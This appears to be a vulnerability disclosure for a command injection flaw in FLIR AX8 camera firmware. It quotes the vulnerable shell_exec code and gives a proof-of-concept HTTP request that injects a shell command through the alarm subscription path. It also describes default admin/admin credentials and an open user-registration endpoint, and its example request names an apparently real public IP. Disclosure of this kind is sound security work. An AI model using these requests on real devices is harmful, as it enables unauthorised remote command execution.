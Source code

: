 # Command injection vulnerability in subscribe_to_alarm() in FLIR AX8

### Description

Command injection vulnerability in /usr/www/application/models/subscriptions.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the function subscribe_to_spot()

### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

![image-20250525235244127](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505252352272.png)

`subscriptions.php`

```php
private function execute_subscription_command($command, $subscription)
{
    shell_exec("echo " . $command . ":" . $subscription . " > " . $this->named_pipe);
}
```

![image-20250525235502223](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505252355316.png)

```php
private function subscribe_to_alarm($id)
{
    $subscription = ".resmon.items." . $id . ".trigged";
    $this->execute_subscription_command("add", $subscription);
}
```

### POC

```
GET /home/subscribe/alarm/;ls>test.txt; HTTP/1.1
Host: XXXXXX
Cookie: PHPSESSID=XXXXXXX
```

For example

- this cookie must be changed

```
GET /home/subscribe/alarm/;ls>test.txt; HTTP/1.1
Host: 222.103.211.89:8004
Cookie: PHPSESSID=XXXXXXXX
```



![image-20250525235929843](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505252359104.png)

![image-20250525235908862](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505252359003.png)